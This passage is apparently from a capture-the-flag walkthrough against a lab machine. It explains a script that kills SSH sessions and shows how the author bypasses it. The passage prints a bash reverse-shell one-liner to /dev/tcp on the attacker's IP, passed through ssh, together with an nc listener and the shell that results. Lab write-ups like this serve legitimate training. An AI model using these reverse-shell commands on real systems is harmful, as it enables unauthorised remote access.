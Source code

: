 The `persistence` file flow:

- The `PATH` specifies the directories `/home/lanchlan/bin` , `/bin` , `/usr/bin`
- `root /bin/sleep`: This part of the code runs the `sleep` command as the root user. The `sleep` command pauses the execution of the script for seconds. This delay allows time for the script to terminate user sessions.
- `for f in /bin/ls /dev/pts; do`: This line starts a loop that iterates over the pseudo-terminal devices in the `/dev/pts` directory. The `ls` command lists all the pseudo-terminal devices, and the output is captured by the loop.
- `/usr/bin/echo nope > /dev/pts/$f`: Inside the loop, this command writes the string "nope" to each pseudo-terminal device. This effectively sends the message "nope" to each user session.
- `pkill -9 -t pts/$f`: Finally, the `pkill` command is used to send a signal (`9`, which represents the SIGKILL signal) to terminate the processes associated with each pseudo-terminal device. This effectively terminates the user sessions.

Login through ****************SSH**************** and it would disconnect immediately after 1-2 second

```tsx
┌──(kali㉿kali)-[~]
└─$ ssh lachlan@10.10.74.222
lachlan@10.10.74.222's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 07 Jul 2023 12:13:04 PM UTC

  System load:  0.02              Processes:             131
  Usage of /:   25.0% of 9.78GB   Users logged in:       0
  Memory usage: 49%               IPv4 address for eth0: 10.10.74.222
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May  5 04:39:19 2022 from 192.168.56.1
$ nope
Connection to 10.10.74.222 closed.
```

For this situation, we need another `netcat listener` and execute the reverse payload right after the ******SSH****** connection (immediately)

```tsx
┌──(kali㉿kali)-[~]
└─$ ssh lachlan@10.10.74.222 'bash -c "bash -i >& /dev/tcp/10.8.97.213/1234 0>&1"'
```

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.74.222] 41614
bash: cannot set terminal process group (1818): Inappropriate ioctl for device
bash: no job control in this shell
lachlan@b2r:~$
```
